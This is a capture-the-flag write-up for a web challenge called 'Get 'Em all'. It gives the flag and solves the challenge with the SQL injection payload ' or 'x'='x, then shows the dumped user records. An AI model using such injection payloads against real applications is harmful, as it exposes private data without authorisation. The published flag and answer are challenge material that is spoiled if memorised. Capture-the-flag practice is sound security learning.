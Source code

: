 ```yaml
---
layout: writeup
title: 'Get ‘Em all'
level:
difficulty:
points: 80
categories: [web]
tags: []
flag: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
---
```

**Challenge**
I think one of the users data fields holds a flag. If only you could
find the username. Link

**Solution**
SQL injection challenge, we enter the following in the input field:

    ' or 'x'='x

and get the following output, which includes the flag

    Name: Luke
    Data: I made this problem.
    Name: Alec
    Data: Steam boys.
    Name: Jalen
    Data: Pump that iron fool.
    Name: Eric
    Data: I make cars.
    Name: Sam
    Data: Thinks he knows SQL.
    Name: fl4g__giv3r
    Data: ABCTF{th4t_is_why_you_n33d_to_sanitiz3_inputs}
    Name: snoutpop
    Data: jowls
    Name: Chunbucket
    Data: @datboiiii
